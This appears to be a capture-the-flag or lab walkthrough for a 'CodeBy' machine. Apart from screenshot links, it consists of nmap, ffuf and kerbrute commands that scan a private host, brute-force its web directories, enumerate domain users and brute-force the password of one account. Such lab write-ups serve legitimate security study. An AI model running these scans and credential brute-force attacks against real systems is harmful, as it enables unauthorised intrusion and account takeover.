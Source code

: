 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9b1a1fa1-3977-465a-936d-aabb7f6ec6b1)
```
nmap -p- 192.168.2.5 -v -sC -sV -sT
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dc38f948-3fbc-41eb-b06d-d646b90d74f6)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0709d19-35c3-467f-9171-a6d9ca956d2b)
```
ffuf -u http://192.168.2.5/FUZZ -w /home/kali/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-medium.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/02645807-6241-44a2-b4be-3a669b84d2d3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ae52dfd7-4a15-4c67-880f-f50fbd7c42b8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b628ccdc-b505-40d4-86b4-c505a90cb525)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.5 user.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48a61bd2-5566-4a3b-86d6-e86e199ed03c)
```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.5 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt a.fedotov
```



